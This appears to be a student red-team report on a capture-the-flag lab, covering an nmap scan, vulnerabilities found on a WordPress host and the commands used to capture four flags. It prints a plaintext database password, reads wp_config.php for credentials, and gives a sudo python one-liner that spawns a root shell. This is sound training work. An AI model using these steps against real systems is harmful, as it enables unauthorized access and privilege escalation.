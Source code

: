 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -O 192.168.1.110
#  Nmap scan report for 192.168.1.110
#  Host is up (0.00072s latency).
#  Not shown: 995 closed ports
#  PORT    STATE SERVICE     VERSION
#  22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
#  80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
#  111/tcp open  rpcbind     2-4 (RPC #100000)
#  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
#  445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
#  MAC Address: 00:15:5D:00:04:10 (Microsoft)
#  Device type: general purpose
#  Running: Linux 3.X|4.X
#  OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
#  OS details: Linux 3.2 - 4.9
#  Network Distance: 1 hop
#  Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
#
#  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
#  # Nmap done at Wed Mar 24 17:59:39 2021 -- 1 IP address (1 host up) scanned in 13.33 seconds
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios / smb)
  - Port 445 (netbios / smb)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - `wpscan` user enumeration
    - `wpscan` was able to enumerate users and find valid usernames for the
      target system.
    - [Link to ScreenShots of word press](https://github.com/Kreyeptic/Final-Project/tree/main/Images)
  - SSH with Password
    - Users are able to ssh into the machine with simply a password, rather than
      requiring an SSH key.
    - User `michael` had an incredibly weak password (same as his username).
  - `python` can run with sudo
    - User `steven` has the ability to run `python` with `sudo`
    - Python can execute arbitrary code on the system, so it is trivial to get
      a shell with root access using this loophole
  - Database credentials in plain text
    - Database credentials for the wordpress site were found written in plain
      text, and stored in the `/var/www/html/wp_config.php`.
    - This allowed us to access the mysql database used for the site, and
      extract password hashes and other confidential information.
  - [CVE-2017-3167](https://access.redhat.com/security/cve/CVE-2017-3167)
    - Authentication bypass is possible on the version of Apache running on the
      server
  - [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)
    - Version of `samba` running on the server is insecure and allows for remote
      code execution.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Weak Password / SSH with password
        - After SSHing into the host with `michael`'s credentials, we were able
          to search the `/var/www/html` directory for `flag1`.
      - Commands run:
        - `ssh michael@192.168.1.100`
        - `cd /var/www/html`
        - `grep -ER flag1`
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Weak Password / SSH with password
        - After SSHing into the host with `michael`'s credentials, `flag2` was
          found right in `/var/www`
      - Commands run:
        - `ssh michael@192.168.1.100`
        - `cd /var/www`
        - `cat flag2.txt`
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Database credentials in plain text
        - After getting the database credentials from
          `/var/www/html/wp_config.php`, we connected to the `mysql` database
          and searched for the flag.
      - Commands run:
        - `ssh michael@192.168.1.100`
        - `less /var/www/html/wp_config.php`
        - `mysql --user root --password` # Password is `R@v3nSecurity`
        - `mysql> SELECT post_title, post_content FROM wp_posts WHERE post_title LIKE "flag%";`
        - This returned the value for flag 3
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - `python` can run with sudo
        - After cracking `steven`'s password using `john` and the hash found in
          the database, we determined that user `steven` could run `python` with
          `sudo` permissions.
        - This allows us to use python as sudo to execute a shell program,
          thereby granting us access to the `root` account.
        - `flag4.txt` was found in the `/root` directory, the `root` account's
          home directory.
      - Commands run:
        - `python -c 'import os; os.system("/bin/sh")'`
        - `cat flag4.txt`
